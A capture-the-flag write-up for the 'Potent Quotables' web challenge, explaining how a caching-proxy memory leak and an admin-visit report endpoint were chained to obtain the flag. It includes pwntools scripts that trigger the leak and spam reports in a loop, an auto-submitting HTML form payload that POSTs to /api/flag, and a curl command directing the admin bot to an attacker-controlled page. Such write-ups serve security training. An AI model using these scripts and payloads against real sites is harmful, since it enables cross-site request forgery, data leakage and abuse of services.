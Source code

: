 # Potent Quotables

We found a Heartbleed-like way of solving this and I thought it would be interesting to do a write up on it.

Summary:     
1. [Run script on your server to listen to `quotables.pwni.ng:1337`](#listener)     
1. [Make a payload containing POST to `/api/flag` on another page/server](#post-payload)
1. [Spam reports to admin so he visits your server containing your payload](#spam-reports)

/api/flag only takes POST requests, so we eventually figured that we have to create a page that makes an xhr POST request to it.

First, we analyzed the caching proxy and ran it locally. Using the local version of the [Listener](#local-listener) below, we got a [memory leak](#memory-leak), getting the rest of the proxy's binary:

##### Local Listener
```
#!/usr/bin/env python2

from pwn import *

request = """GET / HTTP/1.1\r
Connection: abcd\r
Content-Length: 1000\r
\r
hello
"""

p = remote("127.0.0.1", 1337)
p.send(request)
p.close()
```

From the second time onwards, you should get a memory leak. This is because the first response is not received but cached.

##### Memory Leak
```
Listening on [0.0.0.0] (family 0, port 5000)
Connection from [127.0.0.1] port 5000 [tcp/*] accepted (family 2, sport 33330)
GET / HTTP/1.1
Connection: close
Content-Length: 1234
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.3) Gecko/20120305 Firefox/10.0.3
Proxy-Connection: close

hello

">
  ">
    "@"Ballnodesf02::2>
                       "ff02::3 ?
                                 "7.0.1.1       pwnbox  px
127.0.1.1       ubuntu-xv"`r"X
                              "X
                                "
                                 "
                                  "A
                                    "A
                                      "wing lines are desirable for IPv6 capable hosts
::1     ip6-localhost   ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts

127.0.1.1       pwnbox  pwnbox
127.0.1.1       ubuntu-xenial   ubun
```


Notice that the leak is not in the response, but instead in the request being sent to the server. 

##### Listener
Content-length takes a maximum of 2048 bytes.      
This will force the admin bot to visit your server with the memory leak.

```
from pwn import *
import time

request = """POST /report HTTP/1.1\r
Host: quotables.pwni.ng:1337\r
Content-Length: 100\r
Content-Type: application/x-www-form-urlencoded\r
Connection: close\r
\r
path=http://your-listener.com:1337/?"""

while True:
        p = remote("quotables.pwni.ng", 1337)
        # p = remote("127.0.0.1", 1337)
        p.send(request)
        p.close()
p.interactive()
```


##### Post Payload
```
<iframe name="iframe_id" src=""></iframe>

<form id="formlol" method="POST" action="http://quotables.pwni.ng:1337/api/flag" target="iframe_id">
<input type="submit" value="go">
</form>

<script>
    setInterval(function(){
        document.getElementById("formlol").submit();
    }, 50)
</script>

```

##### Spam reports
```
curl -i -s -k  -X $'POST' \
    -H $'Host: quotables.pwni.ng:1337' -H $'User-Agent: Mozilla/5.0 (iPad; CPU OS 10_3_3 like Mac OS X) AppleWebKit/603.3.8 (KHTML, like Gecko) Version/10.0 Mobile/14G60 Safari/602.1' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://quotables.pwni.ng:1337/quote' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 34' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'path=https://your-server.com/ddos.html' \
    $'http://quotables.pwni.ng:1337/report'
```

Then all that's left to do is to constantly check your access logs with `|grep host:port`.     
You'll be getting requests from paths like `GET /?m-data;%20name=%22vote%22%0D%0A%0D%0A%201%0D%0A` and just have to wait until it gives the flag.

*Courtesy of Team OTA / OpenBlue*

##### Reference:     
- https://docs.microsoft.com/en-us/dotnet/api/system.web.httprequest.path?view=netframework-4.7.2
